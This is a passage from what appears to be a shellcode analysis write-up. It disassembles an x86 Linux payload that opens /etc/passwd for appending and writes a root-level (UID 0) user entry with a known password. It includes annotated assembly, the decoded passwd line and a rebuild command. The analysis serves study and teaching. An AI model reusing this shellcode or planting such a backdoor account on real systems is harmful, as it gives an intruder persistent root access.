 Once the stack has the filepath pushed to it, a pointer to the stack is moved into `ebx` to act as the first parameter to the open() function. 

Then ecx is incremented by 1 and 0x4 is moved into `ch`, which is bits 8-16 from the least significant bit, meaning the 1 that was pushed is not overwritten. Thus, the new value is `0x401` which corresponds to the flags value of (O_WRONLY|O_APPEND), thus the shellcode has write permissions to the /etc/passwd file to write a new user.

Then the syscall is triggered. The return value is then moved from `eax` into `ebx` and contains a pointer to the file.

The full shellcode for this segment is listed below:

```x86asm
00000009  6A05              push byte +0x5
0000000B  58                pop eax             ; 0x5 from stack
    ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 5$"
    ; open ()
    ; int open(const char *pathname, int flags);
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373   ; (ascii) dwss
00000014  682F2F7061        push dword 0x61702f2f   ; (ascii) ap//
00000019  682F657463        push dword 0x6374652f   ; (ascii) cte/
0000001E  89E3              mov ebx,esp             ; /etc//passwd
00000020  41                inc ecx                 ; ecx = 1
00000021  B504              mov ch,0x4              ; ecx = 0x401 (O_WRONLY|O_APPEND)
00000023  CD80              int 0x80                ; open("/etc//passwd", 0x0401)
00000025  93                xchg eax,ebx            ; ebx = ptr to file
```

Now it's time to actually write to the file that was just opened. 

The next instruction is a call to the 0x51 position. This will place a pointer to the next address of `0000002B` onto the stack. This is actually a string in hex form, however, the disassembler didn't know that when it was disassembling. Thus, instructions look twisted in the original disassembly. I will decode the hex value as a string and remove the instructions that aren't actually instrucitons. 

I will then run this command to rebuild the remaining instructions.

```bash
echo -n "`python2 -c 'print "\x90"*81'`\x59\x8b\x51\xfc\x61\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -p intel - | grep -v nop
```

First, the call and string:

```x86asm
00000026  E826000000        call 0x51               ; call label1 


0000002B  757365726E616D653A417A796477666F6967425472733A303A303A3A2F3A2F62696E2F73680A
; (ascii) username:AzydwfoigBTrs:0:0::/:/bin/sh
```

Thus, the string `username:AzydwfoigBTrs:0:0::/:/bin/sh` will be written to `/etc/passwd`. This corresponds to the username of `username` and the hash of the password `pass123`.
